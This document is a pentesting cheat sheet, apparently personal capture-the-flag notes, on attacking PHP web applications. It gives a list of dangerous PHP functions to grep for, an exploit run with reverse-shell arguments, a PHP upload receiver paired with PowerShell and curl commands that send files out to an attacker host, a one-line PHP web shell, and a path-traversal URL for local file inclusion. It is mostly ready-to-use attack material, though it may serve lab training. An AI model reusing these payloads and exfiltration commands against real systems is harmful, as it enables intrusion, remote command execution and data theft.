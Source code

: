 __tags: php web 

### PHP Interesting Function List

```
find . -name "*.php" | xargs grep "<function-name>"

    exec
    shell_exec
    system
    passthru
    pcntl_exec
    popen
    proc_open
    eval
    preg_replace (with /e modifier)
    create_function
    file_get_contents
    file_put_contents
    readfile
    include
    require
    require_once
    include_once

```

--> url decode:

```
php -r 'echo urldecode("srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb\n");'
```

--> Run php script with arguments:

```
php 47299.php --host=192.168.245.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.49.245 --reverseport=13000
```


### Upload Server (Windows Exfil)

1. Get Apache running on kali with php support

2. Save to /var/www/

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

3. Upload!!!

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

```bash
curl -F file=@clip.txt http://127.0.0.1/upload.php
```

### ----- 

### PHP execute system command (Reverse Shell)
```
<?php system($_REQUEST['COMMAND']); ?>
```


### Check for locale file inclusion on a page(windows box):

```
# this can work if you something like "include($_GET["page"]" in your php code since this will call anything that the a user will put in as a "page" variable
# if allow_url_include is set to "0" in php.ini, then RFI is disabled, but LFI is still a thing

http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

### Default locations
```bash

/proc/self/cwd/index.php
/var/www/html/index.php
```